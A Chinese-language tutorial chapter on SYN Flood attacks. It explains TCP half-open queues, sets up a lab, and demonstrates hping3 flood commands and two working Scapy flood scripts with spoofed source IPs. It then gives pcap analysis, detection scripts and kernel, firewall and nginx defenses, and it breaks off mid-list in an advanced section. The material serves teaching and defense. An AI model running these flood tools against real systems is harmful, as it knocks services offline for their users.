



## 案例五：SYN Flood攻击演示

SYN Flood是最经典的传输层拒绝服务攻击之一，自1996年被首次公开披露以来，至今仍然是互联网上最常见的DDoS攻击向量之一。理解SYN Flood不仅需要掌握TCP三次握手的每一个细节，还需要深入了解操作系统内核的协议栈实现、半连接队列管理以及现代防御机制的工作原理。本案例将从协议原理出发，逐步深入到攻击构造、流量分析和多层防御体系的搭建。

> **法律声明**：本案例所有实验必须在隔离的虚拟网络环境中进行。未经授权对任何真实系统发起SYN Flood攻击属于违法行为，在中国可依据《刑法》第285条（非法侵入计算机信息系统罪）和第286条（破坏计算机信息系统罪）追究刑事责任。在美则违反《计算机欺诈和滥用法》（CFAA）。本文仅供安全研究和防御学习之用。

---

### 5.1 TCP三次握手回顾与攻击原理

#### 5.1.1 正常的三次握手流程

TCP三次握手是建立可靠连接的基础机制。在传输层核心协议一节中已有概述，这里从攻击分析的角度重新审视每一个步骤中内核的行为：



**关键点——服务器在第二步的动作**：当服务器收到SYN包后、回复SYN+ACK之前，内核必须分配一个`struct inet_request_sock`（Linux内核中）或等价结构体，保存以下状态信息：

| 状态字段 | 作用 | 内存开销 |
|---------|------|---------|
| 源/目的IP和端口 | 标识连接四元组 | ~16 字节 |
| 初始序列号（ISN） | 后续数据校验 | 4 字节 |
| 时间戳 | 超时清理依据 | 8 字节 |
| MSS/窗口缩放等选项 | 协商参数 | ~32 字节 |
| SYN Cookie标记 | 无Cookie时需要 | 4 字节 |
| **合计** | — | **约 200-300 字节/条目** |

单条半连接看似内存消耗不大，但当并发SYN请求达到数十万甚至数百万时，内存消耗和CPU处理开销将迅速膨胀，最终耗尽服务器资源。

#### 5.1.2 两个核心队列：SYN Queue 与 Accept Queue

Linux内核维护两个队列来管理TCP连接的建立过程：

```text
                      应用层调用 accept()
                            │
                            ▼
┌──────────────────────────────────────┐
│         Accept Queue (全连接队列)      │
│   backlog 参数控制大小                   │
│   somaxconn 系统上限                     │
│   存放已完成三次握手的连接                   │
└──────────────────────────────────────┘
                            ▲
                      第三次 ACK 到达
                            │
┌──────────────────────────────────────┐
│         SYN Queue (半连接队列)         │
│   tcp_max_syn_backlog 控制大小          │
│   存放已收到SYN、等待ACK的连接            │
│   超时后由 tcp_synack_timer 清理         │
└──────────────────────────────────────┘
                            ▲
                      SYN 包到达
```

**SYN Flood 的本质**：攻击者发送海量SYN包，故意不发送第三步的ACK，使服务器的SYN Queue被大量虚假半连接填满。当队列满后，新的合法连接请求也将被丢弃——这就是拒绝服务。

#### 5.1.3 攻击的资源消耗分析

SYN Flood对服务器造成的资源消耗是多维度的：

| 消耗维度 | 具体影响 | 严重程度 |
|---------|---------|---------|
| 内存 | 每个半连接占用约200-300字节，100万连接约200-300MB | 中 |
| CPU | SYN+ACK包的构造和发送、定时器管理 | 高 |
| 网络带宽 | 大量SYN+ACK回复和重传消耗出站带宽 | 高 |
| 连接表空间 | SYN Queue满后新连接被拒绝 | 致命 |
| 应用层 | accept()无法返回新连接，服务不可用 | 致命 |

需要注意的是，如果攻击者使用伪造的源IP地址（IP Spoofing），服务器的SYN+ACK回复会发送到不存在的地址，导致服务器反复重传SYN+ACK（Linux默认重传5次，间隔1s、2s、4s、8s、16s），进一步加剧资源消耗。

#### 5.1.4 三种变体形式

SYN Flood有三种主要变体，各有不同的特征和检测难度：

**直接攻击**：攻击者使用真实IP地址发送SYN包。优点是构造简单，缺点是攻击源容易被溯源和封禁。服务器收到的SYN+ACK回复会触发客户端的RST响应，暴露攻击者身份。

**IP欺骗攻击**：攻击者伪造随机源IP地址。服务器的SYN+ACK被发往随机地址，不会收到RST，因此服务器会持续重传直到超时。这种变体难以溯源，是实际中最常见的形式。

**分布式攻击（DDoS）**：多台主机同时发起SYN Flood，通常是僵尸网络（Botnet）控制下的肉鸡。流量来源分散，单个IP的速率可能不高，但总量巨大，防御难度最高。

---

### 5.2 实验环境搭建

#### 5.2.1 网络拓扑

所有实验必须在隔离环境中进行。推荐使用虚拟机构建如下拓扑：



**攻击机配置（Kali Linux）**：

```bash
# 安装必要工具
sudo apt update
sudo apt install -y hping3 scapy python3-scapy nmap tcpdump

# 验证工具版本
hping3 --version
python3 -c "import scapy; print(scapy.VERSION)"
```

**目标机配置（Ubuntu Server）**：

```bash
# 安装一个简单的Web服务器用于测试
sudo apt install -y nginx

# 确认服务运行
curl http://localhost
# 应返回 nginx 默认页面

# 调整内核参数以便观察攻击效果（仅实验环境）
# 查看当前半连接队列大小
cat /proc/sys/net/ipv4/tcp_max_syn_backlog
# 查看全连接队列上限
cat /proc/sys/net/core/somaxconn
# 查看SYN+ACK重传次数
cat /proc/sys/net/ipv4/tcp_synack_retries
```

**监控机配置**：

```bash
# 安装tcpdump或Wireshark
sudo apt install -y tcpdump wireshark

# 抓取目标机的TCP流量
sudo tcpdump -i eth0 -nn 'host 192.168.56.100 and tcp' -w synflood_capture.pcap
```

#### 5.2.2 目标机内核参数调优（用于对比实验）

为了更清楚地观察攻击效果，可以先将目标机的半连接队列调小：

```bash
# 查看当前值
sysctl net.ipv4.tcp_max_syn_backlog
sysctl net.core.somaxconn
sysctl net.ipv4.tcp_synack_retries

# 临时调小队列（更容易观察攻击效果）
sudo sysctl -w net.ipv4.tcp_max_syn_backlog=128
sudo sysctl -w net.core.somaxconn=128
sudo sysctl -w net.ipv4.tcp_synack_retries=2

# 实验结束后恢复默认值
sudo sysctl -w net.ipv4.tcp_max_syn_backlog=1024
sudo sysctl -w net.core.somaxconn=4096
sudo sysctl -w net.ipv4.tcp_synack_retries=5
```

---

### 5.3 攻击实操演示

#### 5.3.1 方法一：hping3 快速发起攻击

hping3是一个功能强大的网络包构造工具，支持TCP/UDP/ICMP/RAW-IP等多种协议，是安全测试中最常用的工具之一。

```bash
# 基础命令：发送SYN Flood
sudo hping3 -S --flood -p 80 192.168.56.100
```

命令参数详解：

| 参数 | 含义 | 说明 |
|------|------|------|
| `-S` | 设置TCP SYN标志位 | 模拟连接请求的第一个包 |
| `--flood` | 尽可能快地发送 | 不等待回复，最大化发送速率 |
| `-p 80` | 目标端口80 | 指定攻击的服务端口 |
| `--rand-source` | 随机伪造源IP | 防止被溯源（可选） |
| `-c 10000` | 发送10000个包后停止 | 控制攻击规模（可选） |
| `--faster` | 比`--flood`更快的模式 | 减少包间延迟（可选） |
| `-d 120` | 数据负载120字节 | 增大包体积消耗更多带宽（可选） |

**带伪造源IP的完整命令**：

```bash
# 使用随机源IP、指定目标端口、限制发送数量
sudo hping3 -S --rand-source --flood -p 80 -c 50000 192.168.56.100
```

**实验观察——在目标机上**：

```bash
# 实时观察半连接状态
watch -n 1 'ss -n state syn-recv | wc -l'

# 观察连接队列溢出
watch -n 1 'netstat -s | grep -i "listen\|overflow\|drop"'

# 观察系统负载
top -b -n 1 | head -20
```

正常情况下`ss -n state syn-recv | wc -l`应该接近0。攻击开始后，这个数字会迅速飙升到数百甚至数千，当达到`tcp_max_syn_backlog`的限制时，新的连接请求将被丢弃。

#### 5.3.2 方法二：Python Scapy 精确控制

Scapy是一个Python交互式数据包处理库，能够构造、发送、捕获和解析网络数据包。相比hping3，Scapy提供了更细粒度的控制能力。

**基础版SYN Flood脚本**：

```python
#!/usr/bin/env python3
"""
SYN Flood 攻击演示脚本
仅供隔离环境安全研究使用
"""

from scapy.all import IP, TCP, send, RandShort
import sys
import argparse

def syn_flood_basic(target_ip, target_port, count=1000, spoofed=False):
    """
    基础 SYN Flood 函数
    
    参数:
        target_ip: 目标IP地址
        target_port: 目标端口
        count: 发送包数量 (0=无限)
        spoofed: 是否使用伪造源IP
    """
    # 构造IP层
    if spoofed:
        # 使用随机源IP（Scapy会自动选择）
        ip_layer = IP(dst=target_ip)
    else:
        ip_layer = IP(dst=target_ip)
    
    # 构造TCP层
    # sport: 源端口使用随机高位端口，模拟真实客户端行为
    # flags='S': 设置SYN标志位
    # seq: 初始序列号，Scapy默认随机生成
    tcp_layer = TCP(
        dport=target_port,
        sport=RandShort(),  # 随机源端口 1024-65535
        flags='S'           # SYN标志位
    )
    
    # 合成完整数据包
    packet = ip_layer / tcp_layer
    
    print(f"[*] 目标: {target_ip}:{target_port}")
    print(f"[*] 伪造源IP: {'是' if spoofed else '否'}")
    print(f"[*] 发送数量: {'无限' if count == 0 else count}")
    print("[*] 开始发送...")
    
    if count == 0:
        send(packet, loop=1, verbose=0)
    else:
        send(packet, count=count, verbose=0)
    
    print(f"[+] 发送完成，共 {count} 个SYN包")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SYN Flood 演示工具")
    parser.add_argument("target", help="目标IP地址")
    parser.add_argument("-p", "--port", type=int, default=80, help="目标端口 (默认: 80)")
    parser.add_argument("-c", "--count", type=int, default=1000, help="发送数量 (0=无限)")
    parser.add_argument("-s", "--spoof", action="store_true", help="伪造源IP")
    
    args = parser.parse_args()
    syn_flood_basic(args.target, args.port, args.count, args.spoof)
```

运行方式：

```bash
# 基础用法：发送1000个SYN包到目标的80端口
sudo python3 syn_flood.py 192.168.56.100 -c 1000

# 使用伪造源IP
sudo python3 syn_flood.py 192.168.56.100 -c 5000 -s

# 攻击HTTPS服务
sudo python3 syn_flood.py 192.168.56.100 -p 443 -c 10000
```

**进阶版：多线程高速SYN Flood**：

```python
#!/usr/bin/env python3
"""
多线程 SYN Flood - 进阶版本
演示如何通过多线程提高发包速率
"""

from scapy.all import IP, TCP, send, RandShort, RandIP
from threading import Thread, Event
import time

class SYNFlood:
    def __init__(self, target_ip, target_port, threads=4, spoof_ip=True):
        self.target_ip = target_ip
        self.target_port = target_port
        self.threads = threads
        self.spoof_ip = spoof_ip
        self.stop_event = Event()
        self.packet_count = 0
    
    def _flood_worker(self, worker_id):
        """单个发包线程的工作函数"""
        while not self.stop_event.is_set():
            # 构造数据包
            if self.spoof_ip:
                ip = IP(src=RandIP(), dst=self.target_ip)
            else:
                ip = IP(dst=self.target_ip)
            
            tcp = TCP(
                sport=RandShort(),
                dport=self.target_port,
                flags='S'
            )
            
            # 发送一批包（loop模式在stop_event触发时会停止）
            pkt = ip / tcp
            send(pkt, count=100, verbose=0)
            self.packet_count += 100
    
    def start(self, duration=30):
        """启动攻击，持续指定秒数"""
        print(f"[*] 启动 {self.threads} 个线程，持续 {duration} 秒")
        print(f"[*] 目标: {self.target_ip}:{self.target_port}")
        print(f"[*] 伪造源IP: {self.spoof_ip}")
        
        thread_list = []
        for i in range(self.threads):
            t = Thread(target=self._flood_worker, args=(i,))
            t.daemon = True
            t.start()
            thread_list.append(t)
            print(f"[*] 线程 {i} 已启动")
        
        # 等待指定时间后停止
        time.sleep(duration)
        self.stop_event.set()
        
        # 等待所有线程结束
        for t in thread_list:
            t.join(timeout=5)
        
        print(f"[+] 攻击结束，总计发送约 {self.packet_count} 个SYN包")

if __name__ == "__main__":
    import argparse
    parser = argparse.ArgumentParser()
    parser.add_argument("target", help="目标IP")
    parser.add_argument("-p", "--port", type=int, default=80)
    parser.add_argument("-t", "--threads", type=int, default=4)
    parser.add_argument("-d", "--duration", type=int, default=30)
    parser.add_argument("--no-spoof", action="store_true", help="不伪造源IP")
    args = parser.parse_args()
    
    flood = SYNFlood(
        args.target, args.port,
        threads=args.threads,
        spoof_ip=not args.no_spoof
    )
    flood.start(duration=args.duration)
```

#### 5.3.3 方法三：使用 nmap 的暴力测试脚本

nmap除了端口扫描外，还内置了一些DoS测试脚本（Nmap Scripting Engine，NSE）：

```bash
# 使用nmap的dos分类脚本进行测试
# 注意：这些脚本效果有限，主要用于功能验证而非真实压力测试
nmap --script dos -p 80 192.168.56.100

# 列出所有可用的dos类脚本
ls /usr/share/nmap/scripts/*dos*

# 使用特定的SYN Flood脚本
nmap --script synflood --script-args synflood.timeout=30s -p 80 192.168.56.100
```

> **注意**：nmap的DoS脚本设计目的是测试目标的脆弱性，而非造成实际的拒绝服务。其发包速率远低于hping3和Scapy，适合用于验证目标是否存在SYN Flood防护。

#### 5.3.4 三种方法对比

| 特性 | hping3 | Scapy | nmap NSE |
|------|--------|-------|----------|
| 安装难度 | 简单（apt install） | 中等（需要Python环境） | 简单（预装于Kali） |
| 发包速率 | 高（内核级发送） | 中等（Python GIL限制） | 低（测试用途） |
| 包定制能力 | 中（命令行参数） | 高（任意字段） | 低（脚本预设） |
| 源IP伪造 | 支持（`--rand-source`） | 支持（RandIP） | 不支持 |
| 使用门槛 | 低 | 中（需要Python基础） | 低 |
| 适用场景 | 快速压力测试 | 精确协议测试 | 脆弱性验证 |

---

### 5.4 流量捕获与分析

理解攻击流量的特征是防御的基础。本节展示如何使用tcpdump和Wireshark分析SYN Flood的网络行为。

#### 5.4.1 使用 tcpdump 捕获攻击流量

```bash
# 在目标机上启动抓包
sudo tcpdump -i eth0 -nn -c 1000 'tcp[tcpflags] & (tcp-syn) != 0 and tcp[tcpflags] & (tcp-ack) == 0' -w synflood.pcap

# 实时统计SYN包速率（每秒）
sudo tcpdump -i eth0 -nn 'tcp[tcpflags] = tcp-syn' 2>/dev/null | pv -l -i 2 -r > /dev/null

# 统计不同源IP的SYN包数量
sudo tcpdump -i eth0 -nn 'tcp[tcpflags] = tcp-syn' -c 5000 2>/dev/null | \
  awk '{print $3}' | cut -d. -f1-4 | sort | uniq -c | sort -rn | head -20
```

#### 5.4.2 攻击流量的Wireshark特征

正常TCP连接与SYN Flood流量在Wireshark中有明显的特征差异：

```text
正常流量模式：
  192.168.1.50:45678 → 192.168.56.100:80  SYN
  192.168.56.100:80 → 192.168.1.50:45678  SYN, ACK
  192.168.1.50:45678 → 192.168.56.100:80  ACK
  → 连接建立，开始数据传输

SYN Flood（真实源IP）流量模式：
  192.168.1.50:12345 → 192.168.56.100:80  SYN
  192.168.56.100:80 → 192.168.1.50:12345  SYN, ACK
  → 无ACK回复，服务器开始重传
  192.168.56.100:80 → 192.168.1.50:12345  SYN, ACK (重传#1)
  192.168.56.100:80 → 192.168.1.50:12345  SYN, ACK (重传#2)
  ...
  192.168.56.100:80 → 192.168.1.50:12345  SYN, ACK (重传#5)
  → 超时释放

SYN Flood（伪造源IP）流量模式：
  10.x.x.x:随机端口 → 192.168.56.100:80  SYN  (大量不同源IP)
  192.168.56.100:80 → 10.x.x.x:随机端口  SYN, ACK  (发往不存在的地址)
  → 源IP高度随机，无ACK回复
```

**Wireshark过滤器**：

```text
# 只看SYN包（连接请求）
tcp.flags.syn == 1 && tcp.flags.ack == 0

# 只看SYN+ACK包（服务器回复）
tcp.flags.syn == 1 && tcp.flags.ack == 1

# 看被重传的SYN+ACK（攻击指标）
tcp.flags.syn == 1 && tcp.analysis.retransmission

# 按源IP统计
# 统计 → 统计对话 → TCP标签页
```

#### 5.4.3 使用 Python Scapy 进行流量分析

```python
#!/usr/bin/env python3
"""
SYN Flood 流量分析脚本
分析pcap文件中的SYN Flood特征
"""

from scapy.all import rdpcap, TCP, IP
from collections import Counter, defaultdict
import sys

def analyze_syn_flood(pcap_file):
    packets = rdpcap(pcap_file)
    
    syn_packets = []
    syn_ack_packets = []
    src_ips = Counter()
    dst_ports = Counter()
    
    for pkt in packets:
        if pkt.haslayer(TCP) and pkt.haslayer(IP):
            tcp_flags = pkt[TCP].flags
            
            # 统计纯SYN包（连接请求）
            if tcp_flags == 'S':
                syn_packets.append(pkt)
                src_ips[pkt[IP].src] += 1
                dst_ports[pkt[TCP].dport] += 1
            
            # 统计SYN+ACK包（服务器回复）
            if tcp_flags == 'SA':
                syn_ack_packets.append(pkt)
    
    print("=" * 60)
    print("SYN Flood 流量分析报告")
    print("=" * 60)
    print(f"总包数: {len(packets)}")
    print(f"SYN包数: {len(syn_packets)}")
    print(f"SYN+ACK包数: {len(syn_ack_packets)}")
    print(f"SYN/SYN+ACK比率: {len(syn_packets)/max(len(syn_ack_packets),1):.2f}")
    print()
    
    # 判断攻击类型
    ratio = len(syn_packets) / max(len(syn_ack_packets), 1)
    unique_src_ips = len(src_ips)
    
    print("[攻击特征分析]")
    if ratio > 10:
        print(f"  ⚠ 高SYN/SYN+ACK比率 ({ratio:.1f})，表明大量SYN未得到回复")
        print("    → 可能是IP欺骗攻击或SYN Queue溢出导致丢包")
    
    if unique_src_ips > 100:
        print(f"  ⚠ 来源IP分散（{unique_src_ips}个不同源IP）")
        print("    → 可能是分布式DDoS或IP欺骗攻击")
    elif unique_src_ips < 5:
        print(f"  → 来源IP集中（{unique_src_ips}个），可能是直接攻击")
    
    print()
    print("[Top 10 源IP]")
    for ip, count in src_ips.most_common(10):
        print(f"  {ip:20s} → {count:>8d} 个SYN包")
    
    print()
    print("[目标端口分布]")
    for port, count in dst_ports.most_common(10):
        print(f"  端口 {port:<6d} → {count:>8d} 个SYN包")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print(f"用法: {sys.argv[0]} <pcap文件>")
        sys.exit(1)
    analyze_syn_flood(sys.argv[1])
```

---

### 5.5 检测方法

#### 5.5.1 实时监控指标

在Linux系统上，可以通过以下指标判断是否正在遭受SYN Flood攻击：

```bash
# 1. 查看半连接队列状态
ss -n state syn-recv | wc -l
# 正常值: 0-10，攻击时可达数千

# 2. 查看TCP连接统计
netstat -s | grep -i "syn"
# 关注: "SYNs to LISTEN sockets dropped" 数值快速增长

# 3. 查看overflows（全连接队列溢出）
netstat -s | grep -i "overflow\|listen"
# 关注: "listen queue of a socket overflowed" 数值

# 4. 使用conntrack查看连接跟踪表
sudo conntrack -C  # 当前连接数
sudo conntrack -S  # 连接跟踪统计
# 关注: "insert_failed" 和 "drop" 数值

# 5. 使用 sar 监控网络包速率
sar -n DEV 1
# 关注: rxpck/s（每秒接收包数）异常飙升

# 6. 综合监控脚本
watch -n 1 'echo "=== SYN Queue ===" && \
  ss -n state syn-recv | wc -l && \
  echo "=== TCP Stats ===" && \
  netstat -s | grep -iE "syn|overflow|listen" && \
  echo "=== Connection Track ===" && \
  conntrack -C 2>/dev/null'
```

#### 5.5.2 基于阈值的自动告警

以下脚本可作为监控告警的基础：

```bash
#!/bin/bash
# syn_flood_monitor.sh - SYN Flood检测告警脚本

THRESHOLD=100  # 半连接队列告警阈值
LOG_FILE="/var/log/syn_flood_alert.log"
ALERT_COOLDOWN=60  # 告警冷却时间（秒）
last_alert=0

while true; do
    # 获取当前半连接数
    syn_recv_count=$(ss -n state syn-recv | wc -l)
    
    if [ "$syn_recv_count" -gt "$THRESHOLD" ]; then
        current_time=$(date +%s)
        time_diff=$((current_time - last_alert))
        
        if [ "$time_diff" -gt "$ALERT_COOLDOWN" ]; then
            timestamp=$(date '+%Y-%m-%d %H:%M:%S')
            echo "[${timestamp}] ALERT: SYN Flood detected! SYN_RECV count: ${syn_recv_count}" >> "$LOG_FILE"
            
            # 获取Top 10源IP
            ss -n state syn-recv | awk '{print $4}' | cut -d: -f1 | \
              sort | uniq -c | sort -rn | head -10 >> "$LOG_FILE"
            
            # 发送告警（可替换为邮件、Slack等通知方式）
            logger -p auth.alert "SYN Flood detected: ${syn_recv_count} half-open connections"
            
            last_alert=$current_time
        fi
    fi
    
    sleep 1
done
```

---

### 5.6 防御体系构建

#### 5.6.1 第一层：内核参数调优

Linux内核提供了多个参数来增强SYN Flood抵抗能力：

```bash
# /etc/sysctl.conf 相关配置

# 开启SYN Cookie（最重要的防御措施）
# 当SYN Queue满时，启用SYN Cookie机制，不再为新连接分配资源
net.ipv4.tcp_syncookies = 1

# 增大半连接队列大小
net.ipv4.tcp_max_syn_backlog = 65536

# 增大全连接队列大小
net.core.somaxconn = 65536

# 减少SYN+ACK重传次数（默认5次，约63秒）
# 攻击场景下减小此值可快速释放无效半连接
net.ipv4.tcp_synack_retries = 2

# 开启TCP时间戳（辅助SYN Cookie工作）
net.ipv4.tcp_timestamps = 1

# 开启窗口缩放
net.ipv4.tcp_window_scaling = 1

# 应用配置
sudo sysctl -p
```

**SYN Cookie 机制详解**：

SYN Cookie是Daniel J. Bernstein在1996年提出的防御机制，其核心思想是**不在SYN Queue中保存任何状态**，而是将连接信息编码到SYN+ACK包的初始序列号（ISN）中：

```text
正常流程：
  收到SYN → 分配资源存入SYN Queue → 发送SYN+ACK → 等待ACK

SYN Cookie流程：
  收到SYN → 不分配资源 → 计算ISN = f(src_ip, src_port, dst_ip, dst_port, timestamp) 
  → 将ISN作为SYN+ACK的序列号发出 → 收到ACK时通过ISN反推验证合法性
```

SYN Cookie的ISN编码方式：

```text
ISN（32位）的结构：
  ┌──────────┬──────────┬──────────┐
  │ 时间戳    │ MSS      │ 哈希值    │
  │ (5 bits) │ (3 bits) │ (24 bits) │
  └──────────┴──────────┴──────────┘

  - 时间戳（5 bits）：用于判断连接是否过期，每64秒变化一次
  - MSS（3 bits）：编码MSS选项（8个预设值之一）
  - 哈希值（24 bits）：基于四元组和密钥的MAC值
```

SYN Cookie的局限性：
- 只能编码3个MSS值（3 bits = 8种，实际使用536/1440/1460三种）
- 无法携带TCP窗口缩放、SACK等高级选项
- 对时间戳精度有依赖
- 在极高速攻击下可能产生哈希碰撞

#### 5.6.2 第二层：iptables/nftables 防火墙规则

防火墙是抵御SYN Flood的重要屏障：

```bash
# iptables 规则集

# 1. 限制单IP的SYN包速率（每秒最多50个新连接）
sudo iptables -A INPUT -p tcp --syn -m limit --limit 50/s --limit-burst 100 -j ACCEPT
sudo iptables -A INPUT -p tcp --syn -j DROP

# 2. 限制单IP的并发连接数
sudo iptables -A INPUT -p tcp --syn -m connlimit --connlimit-above 20 -j REJECT

# 3. 使用hashlimit匹配器（更灵活的限速）
sudo iptables -A INPUT -p tcp --syn -m hashlimit \
  --hashlimit-above 100/sec \
  --hashlimit-burst 150 \
  --hashlimit-mode srcip \
  --hashlimit-name syn_flood \
  -j DROP

# 4. 丢弃无效的TCP状态包
sudo iptables -A INPUT -m state --state INVALID -j DROP

# 5. 放行已建立的连接（提高正常流量的处理效率）
sudo iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# 6. 使用recent模块追踪高频SYN源
sudo iptables -A INPUT -p tcp --syn -m recent --name synflood --set
sudo iptables -A INPUT -p tcp --syn -m recent --name synflood \
  --update --seconds 1 --hitcount 50 -j DROP
```

**nftables等价规则**（现代Linux推荐）：

```bash
#!/usr/sbin/nft -f
# /etc/nftables.d/syn_flood_protection.nft

table inet syn_protection {
    set blocked_ips {
        type ipv4_addr
        flags timeout
        # 自动解封，无需手动维护
    }
    
    chain input {
        type filter hook input priority filter; policy accept;
        
        # 允许已建立连接
        ct state established,related accept
        
        # 丢弃无效包
        ct state invalid drop
        
        # SYN Flood 限速：每源IP每秒最多50个SYN
        tcp flags syn limit rate 50/second burst 100 packets accept
        
        # 超速的SYN包直接丢弃
        tcp flags syn drop
        
        # 从黑名单中的IP直接丢弃
        ip saddr @blocked_ips drop
    }
}
```

#### 5.6.3 第三层：应用层防护

Nginx和Apache等Web服务器自身也有连接限制机制：

**Nginx配置**：

```nginx
http {
    # 限制单IP的连接数
    limit_conn_zone $binary_remote_addr zone=conn_limit:10m;
    limit_conn conn_limit 50;
    
    # 限制单IP的请求速率
    limit_req_zone $binary_remote_addr zone=req_limit:10m rate=100r/s;
    limit_req zone=req_limit burst=200 nodelay;
    
    # TCP积压队列
    server {
        listen 80 backlog=65536;
        # backlog参数对应accept队列大小
    }
}
```

#### 5.6.4 第四层：网络架构防护

对于生产环境，还需要在网络架构层面进行防护：



**各层防护对比**：

| 防护层 | 方案 | 防护能力 | 成本 | 延迟影响 |
|--------|------|---------|------|---------|
| 内核调优 | SYN Cookie + 队列调整 | 低（万级连接） | 免费 | 无 |
| 防火墙 | iptables/nftables限速 | 中（十万级连接） | 免费 | 微小 |
| 应用层 | Nginx limit_conn | 中 | 免费 | 微小 |
| 专业设备 | 硬件DDoS防护设备 | 高（百万级） | 高 | 低 |
| 云防护 | CDN/清洗服务 | 极高（亿级） | 按量计费 | 低-中 |

#### 5.6.5 应急响应流程

当发现正在遭受SYN Flood攻击时的处理步骤：

```bash
# 第一步：确认攻击
ss -n state syn-recv | wc -l
netstat -s | grep -i "syn\|overflow"

# 第二步：识别攻击源
ss -n state syn-recv | awk '{print $4}' | cut -d: -f1 | sort | uniq -c | sort -rn | head -20

# 第三步：临时封禁高频IP
# 如果源IP集中，直接封禁
sudo iptables -I INPUT -s <攻击源IP> -j DROP

# 第四步：启用紧急防护
# 确保SYN Cookie开启
sudo sysctl -w net.ipv4.tcp_syncookies=1
# 减小SYN+ACK重传
sudo sysctl -w net.ipv4.tcp_synack_retries=1
# 全局限速
sudo iptables -I INPUT 1 -p tcp --syn -m limit --limit 20/s --limit-burst 50 -j ACCEPT
sudo iptables -I INPUT 2 -p tcp --syn -j DROP

# 第五步：联系上游（如果是托管服务器）
# 联系ISP或云服务商启用上游清洗
```

---

### 5.7 进阶主题

#### 5.7.1 TCB Hash Table 耗尽攻击

除了传统的SYN Queue耗尽，攻击者还可以针对内核的连接哈希表（`ehash`）发起攻击。当半连接通过SYN Queue后进入`ehash`表时，大量连接会消耗哈希表的桶空间，导致查找效率下降。Linux内核通过`inet_ehash_locks_alloc`分配锁，攻击者可以通过制造哈希碰撞加剧锁争用。

#### 5.7.2 SYN Cookie 的旁路攻击

虽然SYN Cookie能有效防御经典SYN Flood，但攻击者可以采用以下策略绕过：

- **慢速SYN攻击**：发送速率低于SYN Cookie的触发阈值，保持SYN Queue中有大量半连接但不触发Cookie机制
